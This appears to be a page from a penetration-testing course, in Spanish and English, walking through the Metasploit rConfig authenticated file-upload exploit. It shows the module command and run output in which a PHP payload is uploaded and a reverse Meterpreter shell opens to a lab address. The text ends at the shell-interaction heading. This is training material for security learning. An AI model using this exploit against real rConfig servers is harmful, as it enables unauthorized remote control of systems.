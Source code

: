 
## Using the rConfig Exploit and Gaining a Shell

En msfconsole, podemos cargar manualmente el exploit usando el comando:

### Select an Exploit

```r
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

Con este exploit seleccionado, podemos listar las opciones, ingresar los ajustes adecuados específicos para nuestro entorno de red y lanzar el exploit.

Usa lo que has aprendido en el módulo hasta ahora para completar las opciones asociadas con el exploit.

### Execute the Exploit

```r
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
```

Podemos ver en los pasos descritos en el proceso de explotación que este exploit:

- Verifica la versión vulnerable de rConfig
- Se autentica con el inicio de sesión web de rConfig
- Sube un payload basado en PHP para una conexión de shell inversa
- Elimina el payload
- Nos deja con una sesión shell Meterpreter

### Interact With the Shell
